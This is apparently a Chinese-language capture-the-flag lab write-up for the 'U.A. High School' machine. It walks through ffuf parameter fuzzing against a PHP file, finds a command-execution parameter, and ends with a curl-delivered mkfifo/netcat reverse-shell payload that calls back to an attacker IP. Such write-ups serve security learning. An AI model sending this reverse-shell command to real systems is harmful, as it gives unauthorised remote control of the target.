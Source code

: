 ```yaml
---
icon: pen-to-square
date: 2025-05-07
tags: 
title: U.A. High School
category:
  - 项目
---
```

## 解题过程
端口扫描和网站爆破之后没有发现可以利用的点
但是在http://10.10.74.25/assets/images的响应很有趣
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250507213758.png)

证明了网页的存在，当访问http://10.10.36.251/assets/时，我们可以发现设置了`session`这意味着我们很可能访问了某个php文件

发现是个php文件后就有了一点操作空间，可以用模糊测试对php的参数进行碰撞
构造命令进行碰撞
```bash
ffuf -u 'http://10.10.85.228/assets/index.php?FUZZ=id' -mc all -ic -t 100 -w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt -fs 0
```
1. ​**​`-u 'http://10.10.85.228/assets/index.php?FUZZ=id'`​**​
    - ​**​作用​**​：指定目标 URL，`FUZZ` 是占位符，表示此处会被字典中的词替换。
    - ​**​示例​**​：若字典中有词 `user`，则实际请求为 `http://.../index.php?user=id`。
2. ​**​`-mc all`​**​
    - ​**​作用​**​：匹配所有 HTTP 状态码（`-mc` 表示 "match HTTP status code"）。
    - ​**​注意​**​：默认情况下，`ffuf` 仅显示状态码为 200、204、301 等的响应。使用 `all` 会显示所有状态码的响应（可能包含误报）。
3. ​**​`-ic`​**​
    - ​**​作用​**​：忽略响应中的 HTML 注释（`ignore comments`），避免因注释内容干扰结果判断。
4. ​**​`-t 100`​**​
    - ​**​作用​**​：设置并发线程数为 100，提高扫描速度。
5. ​**​`-w /usr/share/seclists/Discovery/Web-Content/raft-small-words-lowercase.txt`​**​
    - ​**​作用​**​：指定用于替换 `FUZZ` 的字典文件路径（常见 Web 参数名的小写单词列表）。
6. ​**​`-fs 0`​**​
    - ​**​作用​**​：过滤（不显示）响应体大小为 0 的结果（`fs` 表示 "filter response size"）。
    - ​**​意图​**​：排除无实际内容的响应（如空页面或错误响应）。
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250508192204.png)

搜索到参数`cmd`
似乎时RCE漏洞，试试看
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250508192422.png)
似乎是base64加密
解一下码看看
![image.png](https://cdn.jsdelivr.net/gh/fakeppa/blog-img/20250508194401.png)
接下来高端操作来了，发送反弹shell
```bash
$ curl -s 'http://10.10.74.25/assets/index.php' -G --data-urlencode 'cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|bash -i 2>&1|nc 10.11.72.22 443 >/tmp/f'
```